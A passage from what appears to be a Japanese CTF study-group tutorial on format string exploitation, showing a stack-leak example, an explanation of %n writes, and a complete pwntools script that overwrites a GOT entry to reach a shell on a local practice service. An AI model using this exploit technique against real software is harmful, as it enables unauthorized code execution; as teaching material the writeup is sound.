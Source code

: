 そのために、dummyで１文字最初に出力する

```
a%x %x %x %x %x %x
a64 f77b7c20 0 ffc823a4 61c82318 25207825
```
すると、25207825(%:0x25, x:0x78, スペース:0x20なので）とちゃんとアラインされたのが分かる。

先ほども書いたが、%nというのは今までに何文字出力したのか？を特定の引数の示す先に書き込む。基本的に書き込み先の値はある程度大きいので、大きい文字列を送ると溢れてしまう。この場合printf関数の文字幅指定によって、任意の長さの文字を表示させることが可能である。

以上を加味すると以下のようなスクリプトで攻撃コードを出力可能である。詳しく文字列で書くのは割とめんどくさいのでこの部分はホワイトボードか何かで解説する。

```
# coding:utf-8
from __future__ import division
from pwn import remote

def p32(addr):
    ret = ""
    for i in range(4):
        x = addr % 256
        addr = addr // 256
        ret += chr(x)
    return ret

host = "127.0.0.1"
port = 3000
r = remote(host, port)

binsh_addr = 0x080484fd
fgets_got = 0x804a014

pos = 6

buf = "a"

for i in range(4):
    addr = fgets_got + i
    buf += p32(addr)

cnt = len(buf)
for i in range(4):
    x = binsh_addr % 256
    binsh_addr = binsh_addr // 256
    offset = (x - cnt) % 256
    buf += "%{0}c%{1}$hhn".format(offset, pos + i)
    cnt += offset
#print(buf)
r.sendline(buf)
r.interactive()
```



## リンク(TSGer)

* [去年の分科会のRev/Pwnの資料@cookies146](http://qiita.com/cookies/private/be4c39c623b5e0617740)
* [satosさんのブログ](http://satos.hatenablog.jp/entry/2016/12/02/192417)

